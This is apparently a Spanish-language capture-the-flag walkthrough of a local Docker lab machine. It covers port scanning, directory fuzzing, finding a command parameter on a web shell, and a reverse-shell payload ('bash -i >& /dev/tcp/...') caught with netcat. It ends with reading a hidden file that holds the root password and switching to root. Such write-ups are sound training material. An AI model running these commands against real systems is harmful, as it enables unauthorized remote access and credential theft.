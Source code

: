 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh
```

![[Pasted image 20250203115206.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250203115243.png]]

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![[Pasted image 20250203115736.png]]

Nos metemos en la web:

![[Pasted image 20250203115320.png]]

![[Pasted image 20250203115634.png]]

![[Pasted image 20250203115841.png]]

```Bash
wfuzz -c --hc 404,500 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u 172.17.0.2/shell.php?FUZZ=whoami
```

![[Pasted image 20250203123746.png]]

```Bash
nc -lnvp 443
```

![[Pasted image 20250203122043.png]]

```Bash
?parameter=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
```

![[Pasted image 20250203120803.png]]

```Bash
nc -lnvp 443
```

![[Pasted image 20250203120933.png]]

```Bash
cd /tmp
```

![[Pasted image 20250203121242.png]]

```Bash
ls -la
```

![[Pasted image 20250203121701.png]]

```Bash
cat .secret.txt
```

![[Pasted image 20250203121725.png]]

root: contraseñaderoot123

```Bash
su root
```

![[Pasted image 20250203121855.png]]

```Bash
/bin/bash -i
```

![[Pasted image 20250203121928.png]]

```Bash
whoami
```

![[Pasted image 20250203121942.png]]

